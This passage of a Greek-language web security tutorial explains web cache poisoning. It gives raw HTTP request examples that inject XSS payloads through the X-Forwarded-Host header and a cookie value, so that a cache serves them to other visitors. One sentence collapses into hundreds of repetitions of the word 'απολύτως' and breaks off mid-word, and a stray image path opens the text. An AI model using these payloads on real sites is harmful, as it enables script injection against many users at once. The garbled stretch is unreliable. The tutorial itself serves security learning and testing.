 Όταν αποθηκεύετε ένα αίτημα, **προσέξτε τις κεφαλίδες που χρησιμοποιείτε** επειδή κάποιες από αυτές θα μπορούσαν να χρησιμοποιηθούν απροσδόκητα ως κλειδιά και ο **θύμα θα πρέπει να χρησιμοποιήσει αυτήν την ίδια κεφαλίδα**. Δοκιμάστε πάντα τη Δηλητηρίαση της Μνήμης Cache με **διαφορετικούς περιηγητές** για να ελέγξετε αν λειτουργεί.

## Παραδείγματα Εκμετάλλευσης

### Ευκολότερο παράδειγμα

Μια κεφαλίδα όπως το `X-Forwarded-For` αντικατοπτρίζεται στην απόκριση χωρίς απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτως απολύτω
```markup
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
```
_Note ότι αυτό θα δημιουργήσει μια δηλητηριασμένη αίτηση προς το `/en?region=uk` και όχι προς το `/en`_

### Δηλητηρίαση cache για DoS

{% content-ref url="cache-poisoning-to-dos.md" %}
[cache-poisoning-to-dos.md](cache-poisoning-to-dos.md)
{% endcontent-ref %}

### Χρήση δηλητηρίασης cache στο web για εκμετάλλευση ευπαθειών στην χειριστική των cookies

Τα cookies θα μπορούσαν επίσης να αντανακλώνται στην απόκριση μιας σελίδας. Αν μπορείτε να το εκμεταλλευτείτε για να προκαλέσετε ένα XSS για παράδειγμα, θα μπορούσατε να εκμεταλλευτείτε το XSS σε αρκετούς πελάτες που φορτώνουν την κακόβουλη απόκριση της cache.
```markup
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
```
Σημειώστε ότι εάν το ευάλωτο cookie χρησιμοποιείται συχνά από τους χρήστες, οι τακτικές αιτήσεις θα καθαρίζουν τη μνήμη cache.
